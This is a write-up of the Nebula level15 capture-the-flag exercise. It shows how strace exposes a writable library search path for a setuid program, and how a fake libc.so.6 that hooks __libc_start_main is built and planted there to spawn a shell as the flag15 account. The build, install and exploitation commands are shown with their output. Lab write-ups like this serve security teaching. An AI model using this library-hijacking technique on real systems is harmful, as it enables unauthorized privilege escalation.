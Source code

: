 As suggested, running strace on flag15 prog reveals on unusual path in the search to libc.so.6:

```
open("/var/tmp/flag15/tls/i686/sse2/cmov/libc.so.6", O_RDONLY) = -1 ENOENT (No such file or directory)
```

As level15 user has permission to write at this location, the idea is to build a custom library, put it there, so that it will be executed by flag15 program.

Looking at unresoved symbols of flag15 we get:

```
level15@nebula:~$ nm ../flag15/flag15 | grep U
         U __libc_start_main@@GLIBC_2.0
         U puts@@GLIBC_2.0
```

__libc_start_main() looks great has a hook to put our code. It is a standard function. Its prototype can be found [here for example](http://refspecs.linuxbase.org/LSB_3.1.1/LSB-Core-generic/LSB-Core-generic/baselib---libc-start-main-.html)
It will be run before main().

Let's use it to invoke a shell [see source](fakelib.c)

This library needs to have all its dependencies linked statically, whereas being a shared lib itself, hence the flags in [Makefile](Makefile).
Note that the version information required by flag15 in the symbols : @@GLIBC_2.0
The linker must be told through flags to use a version.map file: -Wl,--version-script=version.map

```
level15@nebula:~$ make
gcc -shared -static-libgcc -Wl,--version-script=version.map,-Bstatic fakelib.c -o libfake.so
level15@nebula:~$ make install
mkdir -p /var/tmp/flag15/tls/i686/sse2/cmov/
cp libfake.so /var/tmp/flag15/tls/i686/sse2/cmov//libc.so.6
level15@nebula:~$ ../flag15/flag15 
flag15@nebula:/home/level15$ getflag
You have successfully executed getflag on a target account
```


